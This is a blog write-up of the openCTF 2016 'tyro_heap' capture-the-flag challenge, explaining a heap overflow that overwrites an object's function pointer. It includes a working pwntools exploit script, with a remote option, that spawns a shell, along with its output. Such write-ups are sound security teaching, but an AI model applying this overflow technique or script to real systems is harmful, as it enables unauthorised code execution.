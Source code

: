 ```yaml
---
layout: post
title: openCTF 2016 - tyro_heap
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 50
**Solves:** 
**Category:** Exploitation
**Description:** 

> [tyro_heap]({{site.url}}/assets/tyro_heap_29d1e9341f35f395475bf16aa988e29b)

# Menu

On start the menu provides us with a couple of options.

{% highlight text %}
➜  openCTF ./tyro_heap_29d1e9341f35f395475bf16aa988e29b
Tyro Heap
Sun Aug 14 12:34:18 UTC 2016
c) create heap object
a) read type a into object
b) read type b into object
f) free object
e) run object function
q) quit
::>
{% endhighlight %}

To exploit this we only need to know about `c) create heap object', 'a) read type a into object', 'b) read type b into object' and 'e) run object function'.

## Create heap object

It constructs a class with a single method and a char buffer on the heap.

{% highlight C %}
int create_item() {
    object = malloc(0x24);
    *object = 0x80484e0;    // puts@GOT
    return object;
}
{% endhighlight %}

The class has the following structure.

{% highlight text %}
struct object_class {
    int method = puts@got;
    char data[32];
};
{% endhighlight %}

## Read type a/b into object

Read a reads 35 bytes input via scanf and stores them into object->data.

{% highlight C %}
int read_a(int *object->data) {
    printf("give me input_a: ");
    return __isoc99_scanf("%35s", object);
}
{% endhighlight %}

Read b however, does the same thing as read_a but using `getchar` in a do while loop with no bound checking.

{% highlight C %}
int read_b(int *object->data) {
    counter = 0x0;
    printf("give me input_b: ");
    getchar();
    do {
            char_input = getchar();
            if (char_input == "\n") {
                break;
            }
            if (char_input == -1) {
                break;
            }
            counter = counter + 0x1;
            object->data[counter] = char_input;
    } while (true);
    object->data[counter] = 0x0;
    eax = printf("got [%s]\n", object);
    return eax;
}
{% endhighlight %}

Run object option from the main menu executes a method in a provided class id.

{% highlight C %}
int get_choice(int object_counter) {
    printf("object id ?: ");
    __isoc99_scanf("%d", object_id);
    if ((object_id >= 0x0) && (object_id <= object_counter)) {
            eax = object_id;
    }
    else {
            eax = exit(-1);
    }
    return eax;
}

class_id = get_choice();    // return chosen class id
call class_id.method(data); // call the only method in the class

{% endhighlight %}

# Solution

Since it's a 50 pts task, the organizers have provided us with a win function.

{% highlight C %}
void win() {
    system("/bin/sh");
}
{% endhighlight %}

So, what we need to do is. Allocate 2 classes and overflow class 0->data into class 1->method with the address of `win()` and then call class 1's method.

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

win = p32(0x08048660)

def create_obj():
    r.sendline('c')
    r.recvuntil("::> ")

def read_b(i, data):
    r.sendline('b')
    r.recvuntil('object id ?:')
    r.sendline(str(i))
    r.recvuntil('give me input_b: ')
    r.sendline(data)
    r.recvuntil("::> ")

def exe_id(i):
    r.sendline('e')
    r.recvuntil('object id ?: ')
    r.sendline(str(i))

def exploit(r):
    r.recvuntil('::> ')
    create_obj()
    create_obj()

    payload = win * 10
    read_b(0, payload)

    exe_id(1)
    r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/tyro_heap_29d1e9341f35f395475bf16aa988e29b'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  openCTF python ./tyro_heap.py
[*] For remote: ./tyro_heap.py HOST PORT
[+] Starting program '/vagrant/openCTF/tyro_heap_29d1e9341f35f395475bf16aa988e29b': Done
[7380]
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$
{% endhighlight %}

